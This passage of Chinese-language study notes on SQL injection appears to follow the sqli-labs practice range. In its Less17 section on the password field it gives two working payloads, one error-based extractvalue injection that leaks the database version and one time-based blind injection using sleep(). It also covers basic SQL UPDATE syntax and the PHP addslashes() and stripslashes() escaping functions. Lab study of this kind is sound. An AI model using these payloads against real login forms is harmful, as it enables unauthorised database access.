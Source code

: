 删除表中的列:

Alter table 表名 drop column  列名;

## 3.改

Update users set username='tt' where id=15

修改所有：updata 表名 set列名='新的值，非数字加单引号'; 

带条件的修改：updata 表名 set 列名='新的值，非数字加单引号' where id=6;

 

# Less17 密码注入

| 注入语                                                       | 数据库语句 |
| ------------------------------------------------------------ | ---------- |
| uname=admin&passwd=11'and   extractvalue(1,concat(0x7e,(select @@version),0x7e))#&submit=Submit | 爆出版本   |
| uname=admin&passwd=11'and   If(ascii(substr(database(),1,1))=115,1,sleep(5))#&submit=Submit | 延时注入   |

那为什么我们不从 username 处进行构 造呢？ 

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0avgkznhpj20q50k7n6m.jpg)

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0avgt5dq0j20jd0cgmxs.jpg)



 

# 防注入函数介绍

## 1.addslashes()

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。

单引号（'）

双引号（"） 

反斜杠（\）

NULL

提示：该函数可用于为存储在数据库中的字符串以及数据库查询语句准备字符串。

注释：默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 addslashes()，

因为这样会导致双层转义。遇到这种情况时可 以使用函数 `get_magic_quotes_gpc()` 进行检测。

 

## 2.stripslashes()

函数删除由 addslashes() 函数添加的反斜杠

